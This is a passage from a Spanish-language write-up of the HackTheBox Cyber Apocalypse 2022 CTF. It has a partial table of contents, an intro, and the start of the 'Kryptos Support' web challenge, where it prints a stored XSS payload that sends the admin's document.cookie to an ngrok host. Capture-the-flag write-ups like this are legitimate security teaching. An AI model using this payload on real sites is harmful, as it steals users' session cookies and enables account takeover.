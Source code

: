   - [Forensics](#forensics)
    - [Puppeteer](#puppeteer)
      - [Stats](#stats-4)
      - [Solución](#solución-4)
    - [Golden Persistence](#golden-persistence)
      - [Stats](#stats-5)
      - [Solución](#solución-5)
        - [Script completo](#script-completo)
  - [Misc](#misc)
    - [Compressor](#compressor)
      - [Stats](#stats-6)
      - [Solución](#solución-6)
      - [Composición](#composición)


## Intro

El CTF de Cyber Apocalypse volvió este año, bajo una temática intergaláctica estando disponible del 14 al 20 de Mayo del 2022. Mediante [este enlace](https://www.hackthebox.com/events/cyber-apocalypse-2022) se puede obtener más información del evento.

Aquí se encuentran las soluciones de los retos que pude resolver durante mi participación.

*El write-up aquí presente fue generado por medio de [CTFScrapper](https://github.com/srrequiem/CTFScrapper) para la creación de un entorno de trabajo y para la descarga de los archivos de los retos, disponibles en [mi compendio de retos](https://github.com/srrequiem/CTF-Challenge-Compilation).*

## Retos

### Web

#### Kryptos Support

##### Stats

| Attribute | Info |
|---|---|
| Difficulty | easy |
| Description | The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system? |
| File | - |

##### Solución

Después de navegar y revisar el sitio disponible, dado que se menciona que el admin del sitio visualizará los tickets de servicio dados de alta, se puede suponer que se trata de un ataque XSS.

Haciendo uso del payload:

```html
<img src="" onerror=fetch("https://a748-189-203-27-57.ngrok.io/"+document.cookie).then() />
```
